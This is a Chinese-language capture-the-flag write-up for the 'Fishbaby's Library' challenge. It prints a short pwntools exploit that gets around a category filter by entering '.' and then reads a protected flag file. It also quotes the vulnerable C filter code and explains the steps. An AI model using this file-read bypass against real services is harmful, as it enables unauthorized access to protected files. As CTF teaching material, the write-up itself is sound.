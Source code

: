 > NHNC{dof==doblue_over_flow?!?!}

## Fishbaby's Library (300 pts)
```
出題者: Raymond

Fishbaby 開了一間圖書館，但是把 flag 鎖在圖書館的禁區，你能夠突破防護措施並讀取 flag 嗎？

nc chal.nhnc.ic3dt3a.org 2002
```
[file link](https://nhnc.ic3dt3a.org/files/34abcd77e3a9f2d63c9aebcc3cd3a0e8/fishbabys_library_upd.zip?token=eyJ1c2VyX2lkIjo2MywidGVhbV9pZCI6bnVsbCwiZmlsZV9pZCI6ODF9.ZzybZQ.Akun0XrNCnG3njYwgcL2i18z9cE)
source code很長，就不放了

最剛開始時，exploit code有放在給的zip檔內
但他們發現時已經有5個人解了
~~很幸運我在那5個人之中~~

所以我在這邊就講講他的 exploit:
```python=
from pwn import *

p = remote('chal.nhnc.ic3dt3a.org', 2002)

p.sendline('S')
p.sendline('.')
p.sendline('R')
p.sendlineafter('Filename? ', '/home/chal/classified/flag')

flag = p.recvline()
log.info(flag)

p.close()
```
簡單來說，我們要透過`read_file`來得到flag
選單按`L`可以看到底下的內容:
```
Your choice> L
licenses/
rfcs/
classified/
hello_world/
visitor_notice.txt
run.sh
chal
gallery/
```
然後在source可以看到，`R`選項是用於read file
並且在`S`做Set category時對`classified`有過濾
```c=
case 'S':
  printf("Which category interests you? ");

  memset(category, 0x00, sizeof(category));
  scanf(" %[^\n./]", category);

  if (strstr(category, "..") || strstr(category, "/") || strstr(category, "classified")) {
    puts("Hacker!");
    exit(0xdead);
  }
```
回去看到exploit，輸入順序為:`S` -> `.` -> `R` -> `/home/chal/classified/flag`
